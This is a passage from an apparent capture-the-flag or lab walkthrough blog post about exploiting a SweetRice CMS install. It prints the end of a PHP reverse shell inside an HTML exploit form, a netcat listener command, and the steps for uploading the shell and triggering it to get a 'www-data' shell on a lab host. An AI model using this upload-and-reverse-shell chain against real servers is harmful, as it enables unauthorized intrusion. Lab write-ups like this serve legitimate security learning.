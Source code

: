 ```
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 





</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```
Lets prep to listen with netcat and listen for an incoming connection. Remember the port you listed in the php reverse shell is the port you want to listen on.
```
nc -lvnp 9001
```
We are ready. Let's see if we can get this thing to connect to us. We are going to run the html file again
```
firefox exploit.html
```
You should notice something if you are still logged in to the website management site.
{{<figure src="/images/Posts/009/revshell.jpg">}}

That means that the proof of concept is still working. Let's navigate to the page and execute this. 
```
http://10.10.111.161/content/inc/ads/revshell.php
```
Remember following along with john we arent using hacked.php for this but we are using revshell.php. Take a look at your netcat listener and you should now see the prompt of ```$ www-data```. Hacker voice on "IM IN". 
